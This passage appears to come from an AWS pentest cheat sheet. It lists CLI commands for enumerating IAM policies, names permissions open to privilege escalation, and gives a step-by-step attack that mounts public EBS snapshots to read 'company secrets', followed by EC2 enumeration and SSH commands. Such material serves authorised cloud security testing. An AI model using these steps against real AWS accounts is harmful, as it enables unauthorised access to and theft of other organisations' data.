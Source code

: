 ```bash
aws iam list-attached-user-policies --user-name {}
aws iam get-policy-version --policy-arn provide_policy_arn --version-id $(aws iam get-policy --policy-arn provide_policy_arn --query 'Policy.DefaultVersionId' --output text)
aws iam list-user-policies --user-name {}
aws iam get-user-policy --policy-name policy_name_from_above_command --user-name {} | python -m json.tool
# Vulnerables policies:
iam:CreatUser
iam:CreateLoginProfile
iam:UpdateProfile
iam:AddUserToGroup
```

## EBS

### Find secrets in public EBS

```text
# Dufflebag https://github.com/bishopfox/dufflebag
```

### **EBS attack example**

```text
# Discover EBS Snapshot and mount it to navigate
- Obtaning public snapshot name
aws ec2 describe-snapshots --region us-east-1 --restorable-by-user-ids all | grep -C 10 "company secrets"
- Obtaining zone and instance
aws ec2 describe-instances --filters Name=tag:Name,Values=attacker-machine
- Create a new volume of it
aws ec2 create-volume --snapshot-id snap-03616657ede4b9862 --availability-zone <ZONE-HERE>
- Attach to an EC2 instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>
    - It takes some time, to see the status:
    aws ec2 describe-volumes --filters Name=volume-id,Values=<VOLUME-ID>
- Once is mounted in EC2 instance, check it, mount it and access it:
sudo lsblk
sudo mount /dev/xvdh1 /mnt
cd /mnt/home/user/companydata
```

```text
# WeirdAAL https://github.com/carnal0wnage/weirdAAL
```

## **EC2**

### **EC2 basic commands**

```text
# Like traditional host
- Port enumeration
- Attack interesting services like ssh or rdp

aws ec2 describe-instances
aws ssm describe-instance-information
aws ec2 describe-snapshots
aws ec2 describe-security-groups --group-ids <VPC Security Group ID> --region <region>
aws ec2 create-volume --snapshot-id snap-123123123
aws ec2 describe-snapshots --owner-ids {user-id}

# SSH into created instance:
ssh -i ".ssh/key.pem" <user>@<instance-ip>
```
